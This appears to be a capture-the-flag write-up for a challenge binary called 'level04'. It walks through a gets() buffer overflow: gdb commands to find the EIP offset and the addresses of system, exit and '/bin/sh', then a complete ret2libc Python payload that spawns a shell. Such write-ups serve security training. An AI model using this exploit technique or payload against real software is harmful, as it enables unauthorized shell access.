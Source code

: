 The program uses a non protected gets() so it's going to be a buffer overflow attack.
We need to find the EIP offset but the program uses a fork:

we have to set follow-fork-mode child in gdb to debug the child process.
and to get the offset:
(gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")

the offset found is 0x41326641 = 156

we can't make syscall so let's do a ret2lib attack, we have to retrieve the address of the system, exit function and /bin/sh address:

(gdb) info function system
[...]
0xf7e6aed0 system

(gdb) info function exit
[...]
0xf7e5eb70 exit

(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec

(python -c 'print "A" \* 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04
